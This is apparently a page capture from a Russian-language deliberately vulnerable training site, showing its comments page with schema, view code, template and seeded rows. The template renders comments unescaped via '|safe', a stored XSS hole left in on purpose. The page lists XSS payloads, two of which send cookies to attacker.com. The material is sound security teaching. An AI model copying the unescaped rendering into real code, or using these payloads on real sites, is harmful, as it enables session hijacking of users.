

The page /comments on the database its author committed (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE messages (
            id INTEGER PRIMARY KEY,
            user_id INTEGER,
            content TEXT,
            timestamp DATETIME DEFAULT CURRENT_TIMESTAMP
        );

CREATE TABLE users (
            id INTEGER PRIMARY KEY,
            username TEXT UNIQUE,
            password TEXT,
            email TEXT
        );

### main.py (the view)
@app.get("/comments", response_class=HTMLResponse)
async def comments_page(request: Request):
    conn = get_db()
    cursor = conn.cursor()
    cursor.execute("SELECT messages.*, users.username FROM messages JOIN users ON messages.user_id = users.id ORDER BY timestamp DESC")
    messages = cursor.fetchall()
    conn.close()
    return templates.TemplateResponse(
        "comments.html",
        {
            "request": request,
            "messages": messages
        }
    )

### templates/comments.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="ru">
<head>
    <link rel="stylesheet" href="/static/style.css">
</head>
<body>
    <div class="container">
        <header>
            <h1>Комментарии (XSS уязвимость)</h1>
            <nav>
                <a href="/">Главная</a>
                <a href="/search">Поиск (SQL-инъекция)</a>
                <a href="/login">Вход (SQL-инъекция)</a>
                <a href="/comments">Комментарии (XSS)</a>
                <a href="/safe-search">Безопасный поиск</a>
                <a href="/safe-comments">Безопасные комментарии</a>
                <a href="/demo">Демонстрация атак</a>
            </nav>
        </header>
        <main>
            <section>
                <h2>Добавить комментарий</h2>
                <form method="post" action="/comments">
                    <div>
                        <label for="username">Имя пользователя:</label>
                        <input type="text" id="username" name="username" value="guest">
                    </div>
                    <div>
                        <label for="content">Комментарий:</label>
                        <textarea id="content" name="content" rows="4" placeholder="Введите ваш комментарий..." required></textarea>
                    </div>
                    <button type="submit">Отправить</button>
                </form>
            </section>
            <section>
                <h2>Комментарии</h2>
                {% if messages %}
                <div class="comments">
                    {% for msg in messages %}
                    <div class="comment">
                        <div class="comment-header">
                            <strong>{{ msg.username }}</strong>
                            <span>{{ msg.timestamp }}</span>
                        </div>
                        <div class="comment-content">
                            {{ msg.content|safe }}
                        </div>
                    </div>
                    {% endfor %}
                </div>
                {% else %}
                <p>Пока нет комментариев.</p>
                {% endif %}
            </section>
            <section class="examples">
                <h2>Примеры XSS для тестирования:</h2>
                <ul>
                    <li><code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code> - простой alert</li>
                    <li><code>&lt;img src="x" onerror="alert('XSS')"&gt;</code> - XSS через обработчик ошибок изображения</li>
                    <li><code>&lt;iframe src="javascript:alert('XSS')"&gt;&lt;/iframe&gt;</code> - XSS через iframe</li>
                    <li><code>&lt;b onmouseover="alert('XSS')"&gt;Наведи на меня&lt;/b&gt;</code> - XSS при наведении</li>
                </ul>
                <h3>Более опасные примеры:</h3>
                <ul>
                    <li><code>&lt;script&gt;document.location='http://attacker.com/?c='+document.cookie&lt;/script&gt;</code> - кража cookies</li>
                    <li><code>&lt;script&gt;var i=new Image;i.src="http://attacker.com/"+document.cookie;&lt;/script&gt;</code> - отправка cookies на другой сайт</li>
                </ul>
            </section>
        </main>
        <footer>
            <p>Демонстрационный сайт для обучения безопасности. Никогда не используйте уязвимый код в продакшене!</p>
        </footer>
    </div>
</body>
</html>

### static/style.css (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; line-height: 1.6; color: #333; background-color: #f5f5f5; }
.container { max-width: 1200px; margin: 0 auto; padding: 20px; }
header { background-color: #2c3e50; color: white; padding: 20px; border-radius: 8px; margin-bottom: 20px; }
header h1 { margin-bottom: 15px; }
nav { display: flex; flex-wrap: wrap; gap: 15px; padding-top: 15px; border-top: 1px solid rgba(255, 255, 255, 0.1); }
nav a { color: #ecf0f1; text-decoration: none; padding: 8px 15px; border-radius: 4px; background-color: #34495e; transition: background-color 0.3s; }
main { background-color: white; padding: 25px; border-radius: 8px; box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); }
section { margin-bottom: 30px; }
h2, h3 { color: #2c3e50; margin-bottom: 15px; }
h2 { border-bottom: 2px solid #ecf0f1; padding-bottom: 10px; }
form { background-color: #f8f9fa; padding: 20px; border-radius: 5px; margin-bottom: 20px; }
input, textarea, button { font-family: inherit; font-size: 16px; }
input, textarea { width: 100%; padding: 10px; margin-bottom: 15px; border: 1px solid #ddd; border-radius: 4px; }
button { background-color: #3498db; color: white; border: none; padding: 12px 25px; border-radius: 4px; cursor: pointer; font-weight: bold; transition: background-color 0.3s; }
.comments { margin-top: 20px; }
.comment { background-color: #f8f9fa; padding: 15px; border-radius: 5px; margin-bottom: 15px; border-left: 4px solid #3498db; }
.comment-header { display: flex; justify-content: space-between; margin-bottom: 10px; color: #7f8c8d; }
.comment-content { line-height: 1.6; }
.examples { background-color: #e8f4fc; padding: 20px; border-radius: 5px; }
.examples ul { margin-left: 20px; margin-bottom: 15px; }
.examples li { margin-bottom: 8px; }
.examples code { background-color: #2c3e50; color: #ecf0f1; padding: 2px 6px; border-radius: 3px; font-family: 'Courier New', Courier, monospace; }
footer { margin-top: 30px; text-align: center; color: #7f8c8d; font-size: 14px; padding: 20px; border-top: 1px solid #ecf0f1; }

### rows shown on the page
messages: username "admin", timestamp "2025-12-18 00:37:35", content "Вот так"
messages: username "admin", timestamp "2025-12-18 00:10:49", content "Привет всем! Это тестовое сообщение."
messages: username "alice", timestamp "2025-12-18 00:10:49", content "Не забывайте обновлять пароли!"
messages: username "bob", timestamp "2025-12-18 00:10:49"
messages: username "eve", timestamp "2025-12-18 00:10:49", content "Пример комментария с HTML тегами."
